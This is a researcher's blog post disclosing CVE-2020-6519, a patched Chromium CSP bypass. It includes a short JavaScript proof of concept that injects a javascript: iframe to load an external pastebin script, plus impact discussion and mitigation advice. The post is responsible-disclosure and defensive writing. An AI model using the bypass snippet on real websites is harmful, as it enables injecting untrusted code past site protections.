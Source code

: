 ```yaml
---
enabled: true
layout: post
tags: Discovery,Browser,Top,CVEs,Vulnerabilities,Security,JavaScript,Research,Published,Posts
title: CVE-2020-6519 - Chromium 83 Zero Day Full CSP Bypass Cross Platforms
url: https://weizman.github.io/
date: 02/09/2020
description: Chromium 83 Zero Day Full CSP Bypass Cross Platforms
keywords: chromium, exploit, vulnerability, CSP, javascript, web, security
---
```


> tl;dr - This is the story of how I found and helped **Google** [patch](https://chromereleases.googleblog.com/2020/07/stable-channel-update-for-desktop.html#:\~:text=Gal%20Weizman%20(@WeizmanGal)%20of%20PerimeterX) a [**vulnerability in Chrome browser**](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) that could have allowed attackers to [**fully bypass CSP rules**](https://crbug.com/1064676) since Chrome 73 (March 2019), and how researching it taught me that today's CSP mechanism design is the reason **no one uses CSP correctly and therefore many of the biggest websites in the world are exposed to this vulnerability**.

### Bypassing CSP completely can be very bad..

I was extremely surprised when I discovered this vulnerability affecting [Chromium](https://www.chromium.org/) based browsers  - Chrome, Opera, Edge -  on Windows, Mac and Android that allowed attackers to fully bypass CSP rules on Chrome versions 73 (March 2019) through 83 (July 2020).

To better understand the magnitude of this vulnerability - the potentially impacted users are in the billions, with Chrome having over two billion users, and more than 65% of the browser market on one hand, and some of the most popular sites on the web being vulnerable to this CVE on the other hand.

Vulnerable sites included [Facebook](https://www.facebook.com/), [WellsFargo](https://www.wellsfargo.com/), [Gmail](https://gmail.com/) , [Zoom](https://zoom.us/), [Tiktok](https://www.tiktok.com/en/), [Instagram](https://instagram.com/), [WhatsApp](https://whatsapp.com/), [Investopedia](https://www.investopedia.com/), [ESPN](https://www.espn.com/), [Roblox](https://www.roblox.com/), [Indeed](https://www.indeed.com/), [Blogger](https://www.blogger.com/), [Quora](https://www.quora.com/) and more.

So what was the vulnerability exactly?

### Break CSP Down Completely With A One-Liner

You are more than welcome to check out the [POC files as disclosed to Google Chrome project](https://github.com/weizman/CVE-2020-6519/tree/master/POC) originally if you are interested in the exploit and in running it, but the following sum up should cover it mostly:

Normally, an attempt to run the following JS code will be blocked by the browser when the site’s CSP setting disallows the source or actions performed by the script:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will fail due to CSP */
var s = document.createElement("script"); s.src = top._CVE_URL; document.body.appendChild(s);
```

However, running the same JS code via `javascript:` src of an iframe will bypass completely the configured CSP on that website:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will succeed although CSP */
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

**Simple yet very powerful!** Billions of browsers on any OS would have blindly allowed CSP privilege escalation for any unwanted code in a website:

![5](/content/img/5a.gif)

It is worth mentioning that some sites protected by CSP, like [Twitter](http://twitter.com/), [Github](http://github.com/), [LinkedIn](https://www.linkedin.com/), [Google Play Store](https://play.google.com), [Yahoo's Login Page](https://login.yahoo.com), [PayPal](https://paypal.com) and [Yandex](https://yandex.ru) were not vulnerable to [CVE-2020-6519](https://github.com/weizman/CVE-2020-6519/), as these implemented CSP using [nonce](https://content-security-policy.com/nonce/) or [hash](https://content-security-policy.com/hash/) and by that added a layer of security that is implemented on the server side as well as the client side.

<ins class="adsbygoogle"
style="display:block; text-align:center;"
data-ad-layout="in-article"
data-ad-format="fluid"
data-ad-client="ca-pub-1379968351324902"
data-ad-slot="5348991370"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

### What is the potential impact?

[Content Security Policy (CSP)](https://content-security-policy.com/) is basically a set of rules set by the website that the browser's role here is to respect and enforce in the name of the website.

With these rules the website can ask the browser to block/allow specific request calls, specific types of javascript code execution and more, thus ensuring stronger security for site visitors and protecting them from potential injected malicious scripts or [cross-site-scripting (XSS)](https://owasp.org/www-community/attacks/xss/).

Having a vulnerability in Chrome’s CSP enforcement mechanism doesn’t directly mean that sites are breached, as the attackers also need to manage to get the malicious script called from the site (which is why the vulnerability was classified as medium severity).

However, having a vulnerability in a security mechanism that is trusted by websites to enforce stricter policies on 3rd party scripts has vast implications, as some of the largest sites rely on CSP to enforce their policy, and may give them the comfort of approving 3rd party scripts of vendors and partners thinking they are safe with a strict policy enforced.

Besides the sites mentioned above (representing more than 2.5 billion users), it is safe to estimate that thousands of websites across industries, including e-commerce, banking, telecommunications, government, and utilities were left unprotected from a scenario where hackers managed to inject malicious code into them.

### Why should we be worried about a vulnerability that is exploitable only when an attacker gained code execution on a website? In that case, bypassing CSP wouldn't make much of a difference..

I disagree.

It is extremely risky when a vulnerability is found in the security mechanism that prevents such breaches, as the impacted sites actively relied on CSP to provide the protection tier.

About 6 months ago I found a [persistent XSS in WhatsApp Web/Desktop applications and demonstrated the severity of this vulnerability](https://weizman.github.io/page-whatsapp-vuln/).

Part of the reason the severity was so high is because their CSP was misconfigured in such a way that allowed me to inject scripts that could communicate with any domain I wanted.

This is why. Finding ways to execute code on a website you don't control is indeed extremely difficult.
But once someone has, you'd wish your website had another layer of security that might stop them from causing real damage.

You can read all about this research right [here](https://weizman.github.io/page-whatsapp-vuln/).

### Test It Yourself

I was easily able to test all of those websites by creating a [simple script](https://github.com/weizman/CVE-2020-6519/blob/master/CVE-2020-6519-TEST-IT-YOURSELF.js) that when executed via the devtools console will let you know immediately whether the current browser/website is vulnerable to [CVE-2020-6519](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) due to misconfigured CSP/Old Chrome or not. It does that by trying to load an external js script from [https://pastebin.com/raw/XpHsfXJQ](https://pastebin.com/raw/XpHsfXJQ) both normally and by trying to load the exploit as well:

> _Browser and Website are vulnerable_

![2](/content/img/2a.jpg)

> _Browser is vulnerable but Website is not_

![1](/content/img/1a.jpg)

> _Browser is not vulnerable_

![4](/content/img/4a.jpg)

### Advice For Website Owners And Users

**Ensure your CSP policies are well defined**

Consider adding additional layers of security such as [nonce](https://content-security-policy.com/nonce/)s or [hash](https://content-security-policy.com/hash/)s.
This will require some server-side implementation.

**CSP alone is not enough for most websites so, consider adding additional layers of security**

Consider JavaScript-based detection and monitoring of [Shadow Code for real-time mitigation of web page code injection](https://www.perimeterx.com/tech-blog/2020/shadow-code-what-is-it-and-why-should-you-care/).

**Make sure your Chrome browser version is 84 or higher.**

### About The Patch

This vulnerability was [patched](https://crbug.com/1064676) by the Chromium project on Chrome 84, was tagged as medium ([CVSS 6.5](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2020-6519&vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N&version=3.1&source=NIST)) risk and was granted $3,000.

<ins class="adsbygoogle"
style="display:block; text-align:center;"
data-ad-layout="in-article"
data-ad-format="fluid"
data-ad-client="ca-pub-1379968351324902"
data-ad-slot="5348991370"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>